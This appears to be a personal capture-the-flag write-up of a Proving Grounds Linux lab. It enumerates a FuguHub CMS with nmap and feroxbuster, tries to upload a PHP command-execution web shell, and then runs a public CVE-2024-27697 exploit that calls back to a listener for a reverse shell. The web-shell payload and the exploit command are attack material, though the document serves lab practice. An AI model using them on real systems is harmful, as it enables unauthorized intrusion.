 # NMAP

```
sudo nmap -sC -sV 192.168.236.25 -oN nmap-hub
```

![[PG/Linux/attachments/Pasted image 20250711131636.png]]
- three web servers

# 80

![[PG/Linux/attachments/Pasted image 20250711131735.png]]
- nginx/1.18.0
## Ferox 

```
feroxbuster -u http://192.168.236.25 -w /usr/share/wordlists/dirb/big.txt 
```



# 9999

## Ferox - this one says ssl so -k flag

```
feroxbuster -u http://192.168.236.25:9999 -w /usr/share/wordlists/dirb/big.txt -k -o ferox9999 
```

- ferox dies immediately with and without -k


# 8082 

## Ferox 

```
feroxbuster -u http://192.168.236.25:8082 -w /usr/share/wordlists/dirb/big.txt -o ferox8082 
```

![[PG/Linux/attachments/Pasted image 20250711132353.png]]

I guess I can make myself an admin. `cadet:cadet`

![[PG/Linux/attachments/Pasted image 20250711132529.png]]

Password too short
![[PG/Linux/attachments/Pasted image 20250711132550.png]]

I'll do `Passw0rd!`

![[PG/Linux/attachments/Pasted image 20250711132639.png]]
- sweet

Navigate to admin panel

![[PG/Linux/attachments/Pasted image 20250711132859.png]]

Clicking around

![[PG/Linux/attachments/Pasted image 20250711133018.png]]

If I select 'Request' - I can see all my feroxbuster requests

![[PG/Linux/attachments/Pasted image 20250711133135.png]]
- BarracudaServer.com
Going to exit ferox buster.


Fair amount of attack vectors

![[PG/Linux/attachments/Pasted image 20250711133404.png]]
- html rev shell?
- upload php web shell

Here's the upload images directory

![[PG/Linux/attachments/Pasted image 20250711133455.png]]

Looks like .png files are accepted.. let's try a web shell

This is where stuff is saved

![[PG/Linux/attachments/Pasted image 20250711133619.png]]

```
http://192.168.236.25:8082/protected/admin/fs/cmsdocs/autumn.txt
```


Try webshell

```
<?php system($_GET['cmd']); ?>
```

![[PG/Linux/attachments/Pasted image 20250711133733.png]]

![[PG/Linux/attachments/Pasted image 20250711133815.png]]

Looks like that worked

![[PG/Linux/attachments/Pasted image 20250711133832.png]]

Navigate to 

```
http://192.168.236.25:8082/protected/admin/fs/cmsdocs/web-shell.php.png
```

- web server can't find it 

It's here though

![[PG/Linux/attachments/Pasted image 20250711134012.png]]

Clicked on the file 
![[PG/Linux/attachments/Pasted image 20250711134036.png]]

it didn't work

![[PG/Linux/attachments/Pasted image 20250711134130.png]]

Alright. Googling exploit for this CMS 

"FuguHub 8.4 exploit CVE-2024-27697"

![[PG/Linux/attachments/Pasted image 20250711134353.png]]
- [here's one](https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697/blob/main/exploit.py)

Modify exploit code 

![[PG/Linux/attachments/Pasted image 20250711134526.png]]

The exploit is basically injecting malicious LUA code into the "Customize About Page" which I saw earlier

```
python3 exploit.py -r 192.168.236.25 -rp 8082 -l 192.168.45.152 -p 9001
```
![[PG/Linux/attachments/Pasted image 20250711135127.png]]
- got my foothold

![[PG/Linux/attachments/Pasted image 20250711135201.png]]


Spawn TTY 

![[PG/Linux/attachments/Pasted image 20250711135402.png]]
- did not work..need to respawn
# Enum for privesc

```
whoami
```
![[PG/Linux/attachments/Pasted image 20250711135531.png]]

Done lol

Why are they hiding the flag again though. Did anyone get the flag.....idc.



